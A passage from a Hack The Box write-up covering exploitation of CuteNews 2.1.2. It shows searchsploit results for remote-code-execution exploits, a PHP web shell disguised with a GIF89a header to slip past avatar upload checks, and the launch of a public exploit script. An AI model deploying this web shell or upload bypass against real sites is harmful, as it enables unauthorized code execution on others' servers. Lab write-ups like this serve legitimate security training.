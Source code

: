 
## Exploitation

Going back to our searchsploit again, we can now also filter out and add more specificity to our search

```
┌─[✗]─[root@parrot]─[/home/utopia/Documents/HTB/writeups]
└──╼ #searchsploit cutenews 2.1.2
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                    | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                        | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                      | php/webapps/48800.py
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Looks like there are a ton of code exec vulnerabilities, but interestingly enough there is even a metasploit module for it, I usually just run metasploit whenever I'm rooting easy machines, but in this case I ran one of the public exploit codes (Don't worry, I analyzed them before running them, as you're supposed to do!!) just to get them out of the way, but generally what this exploit code does it just a PHP file upload through our avatar (through the registration) and makes it file type by using a `GIF89a;` in the start our of file upload to make it think our file is actually an image/GIF, but in the backend is actually executes our PHP code, here is an example:

```
┌─[root@parrot]─[/home/utopia/Documents/HTB/writeups]
└──╼ #cat shell.php 
GIF89a;

<?php system($_GET['cmd']) ?>
┌─[root@parrot]─[/home/utopia/Documents/HTB/writeups]
└──╼ #file shell.php 
shell.php: GIF image data, version 89a, 2619 x 15370
```

```
┌─[root@parrot]─[/home/utopia/Documents/HTB/writeups]                                                                         
└──╼ #searchsploit -m php/webapps/48800.py                                                                                    
  Exploit: CuteNews 2.1.2 - Remote Code Execution                                                                             
      URL: https://www.exploit-db.com/exploits/48800                                                                          
     Path: /usr/share/exploitdb/exploits/php/webapps/48800.py                                                                 
File Type: Python script, ASCII text executable, with CRLF line terminators                                                   
                                                                                                                              
Copied to: /home/utopia/Documents/HTB/writeups/48800.py                                       

┌─[root@parrot]─[/home/utopia/Documents/HTB/writeups]                                                                         
└──╼ #python3 48800.py                                        
                                                              
```